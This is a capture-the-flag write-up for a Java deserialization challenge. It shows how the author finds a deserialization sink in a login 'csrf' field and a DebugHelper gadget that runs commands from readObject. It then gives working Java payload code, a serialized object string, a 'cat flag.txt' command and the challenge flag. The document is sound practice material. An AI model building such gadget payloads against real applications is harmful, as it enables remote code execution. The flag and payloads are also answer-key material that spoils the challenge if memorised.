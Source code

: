 ```yaml
---
layout: default
title: Java-Custom-gadget-deserialization
---
```


In this challenge, we need to create our custom gadget to exploit the deserialization vulnerability that is found in the application.

First, we can find the `sink` here, inside `HomeIndex.java` file, when trying to access `/login` it deserialize the value of `csrf`.

![sink found](./images/Java-Custom-gadget-deserialization_deserialize.png)

If we'll look on Burp, we can see `csrf` does contain serialized java object
![csrf token](./images/Java-Custom-gadget-deserialization_csrf.png)

Okay, know we want to find the gadget.

In this stage, we just scan the classes, and look for something interesting. In our case, I found inside `DebugHelper` the function `run` that execute commands, if the `debug` flag is turned on.

```java
package com.rootme.serial;

import java.io.*;
import java.util.Arrays;

public class DebugHelper implements Serializable {
    private OwnBase64[] command;
    private Boolean debug;
    private String output;

    public DebugHelper(OwnBase64[] command, Boolean debug) {
        this.debug = debug;
        this.command = command;
    }

    public void run() throws IOException {
        if (!debug) {
            output = "The DebugHelper is not in 'debug' mode.";
            return;
        }

        String[] commandStrings = new String[command.length];
        for (int i = 0; i < command.length; i++) {
            commandStrings[i] = command[i].decode();
        }

        Process process = Runtime.getRuntime().exec(commandStrings);
        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()))) {
            StringBuilder result = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                result.append(line).append("\n");
            }

            output = result.toString();
        } catch (IOException e) {
            throw new IOException("Error reading process output", e);
        }
    }

    @Override
    public String toString() {
        return "DebugHelper{output='" + output + "'}";
    }

    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
}
```

In addition, we can see the function `run` is being executed when `readObject` is being called, which is the deserialization function, perfect.

So now, we only need to build our `DebugHelper` object, and get our `RCE`.

This will be our `Main.java` code:
```java
package com.rootme.serial;

import java.io.*;
import java.util.Base64;
import java.util.UUID;

import static com.rootme.serial.SerializationUtils.deserialize;
import static com.rootme.serial.SerializationUtils.serialize;
class Main {
    public static void main(String[] args) {
        OwnBase64[] payload = {
                new OwnBase64(Base64.getEncoder().encodeToString("sh".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("-c".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("echo 1337".getBytes()))
        };
        boolean flag = true;
        DebugHelper originalObject = new DebugHelper(payload, flag);

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);
    }
}
```
As you can see, I did a trick that I sends this payload:
```bash
sh -c "echo 1337"
```
By this way I can easily execute every command, and not needed to adjust the number of arguments.

So, we'll execute it:

![execute poc](./images/Java-Custom-gadget-deserialization_execute_poc.png)

And we get this string:
```
rO0ABXNyAB1jb20ucm9vdG1lLnNlcmlhbC5EZWJ1Z0hlbHBlcvPsfvD5ClRKAgADWwAHY29tbWFuZHQAHltMY29tL3Jvb3RtZS9zZXJpYWwvT3duQmFzZTY0O0wABWRlYnVndAATTGphdmEvbGFuZy9Cb29sZWFuO0wABm91dHB1dHQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdXIAHltMY29tLnJvb3RtZS5zZXJpYWwuT3duQmFzZTY0O74OoqGsN8lVAgAAeHAAAAADc3IAG2NvbS5yb290bWUuc2VyaWFsLk93bkJhc2U2NIS7JPaSQhv5AgABTAAHZW5jb2RlZHEAfgADeHB0AARjMmc9c3EAfgAHdAAETFdNPXNxAH4AB3QADFpXTm9ieUF4TXpNM3NyABFqYXZhLmxhbmcuQm9vbGVhbs0gcoDVnPruAgABWgAFdmFsdWV4cAFw
```

As you can see, the `RCE` worked.

![execute working](./images/Java-Custom-gadget-deserialization_execute_working.png)

Now, we just adjust the commands and search for the flag:

We know the flag is in the root directory, and we are on `/pp`.
Also, we know the flag is in `flag.txt`, so, we'll execute this
```
cd ..; cat flag.txt;
```
and the payload is:
```java
 OwnBase64[] payload = {
                new OwnBase64(Base64.getEncoder().encodeToString("sh".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("-c".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("cd ..; cat flag.txt".getBytes()))
        };
```

We got the flag!

![FINAL](./images/Java-Custom-gadget-deserialization_FINAL.png)


**Flag:** ***`RM{D3s3ri4lisation_1s_m0re_fun_w1th_Cust0m_G4dgets}`***
